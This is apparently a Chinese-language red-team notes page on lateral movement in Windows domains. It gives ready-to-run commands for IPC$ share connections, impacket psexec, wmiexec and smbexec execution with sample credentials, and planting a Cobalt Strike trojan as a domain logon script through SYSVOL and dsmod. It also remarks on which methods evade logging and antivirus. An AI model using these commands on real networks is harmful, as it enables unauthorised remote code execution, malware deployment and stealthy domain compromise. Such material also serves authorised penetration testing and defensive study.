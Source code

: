 ```yaml
---
title: 【后渗透】指定主机上线
---
```

## 指定主机上线

## IPC命名管道连接

**利用条件**

1、目标开启139、445端口

2、管理员开启默认共享（admin$、c$、d$等）

**建立一个连接**

```bash
net use \\目标IP\ipc$ "密码" /user:账号

#查看当前已建立的连接
net use

#列出目标目录文件
dir \\目标IP\c$

#映射共享磁盘到本地
net use z: \\IP\c$ "密码" /user:"用户名"

#删除连接
net user \\目标IP\ipc$ /del

#删除共享映射
net use * /del
```

## 无防火墙

**psexec、wmiexec等方式获取指定主机命令执行权限**

impacket工具包：https://github.com/SecureAuthCorp/impacket

**impacket工具包中的PsExec**

```bash
python psexec.py 用户名:密码@目标IPpython psexec.py Administrator:@admin.886@10.1.1.14
```

会直接反弹一个SYSTEM权限的shell。

> 随着PsExec在内网中被严格监控，越来越多的杀毒厂商已经把PsExec加入了黑名单；
>
> 而且PsExec执行程序时会创建一个psexec服务，并产生大量日志，可以通过日志反推攻击流程。

**使用WMI执行程序（目标需开放135端口）**

WMI是Windows的一个管理工具集，Windows默认不会把WMI的操作记录到日志中

**impacket工具包中的wmiexec**

```bash
python wmiexec.py administrator:@admin.886@10.1.1.14
```

**Impacket中的smbexec.py** 

```bash
python smbexec.py administrator:@admin.886@10.1.1.14
```

## 防火墙全开

**1、通过组策略下发命令执行**

改一下这个[三好学生的脚本](https://3gstudent.github.io/3gstudent.github.io/域渗透-利用GPO中的计划任务实现远程执行/)就能用

**2、通过设置登陆脚本上线指定用户**

>  IPC连接到域控，copy文件，在成员上执行 
>
>  login.bat 是cs生成的马

一）使用dsmod给指定域用户设置登陆脚本

login.bat放在域控的NETLOGON目录下面

```bash
copy login.bat \\域控\SYSVOL\sysvol\域名\SCRIPTS\login.bat
dsmod user -loscr "test.bat" "CN=x,OU=x,DC=x,DC=x,DC=x"
```

二）登陆脚本给指定用户种马

login.bat放在域控的NETLOGON目录下面

```bash
copy login.bat \\域控\SYSVOL\sysvol\域名\SCRIPTS\test.bat
net user xp /scriptpath:login.bat 

gpupdate /force
# 立即刷新组策略 使用域管权限执行  不执行也行,等待随机
```

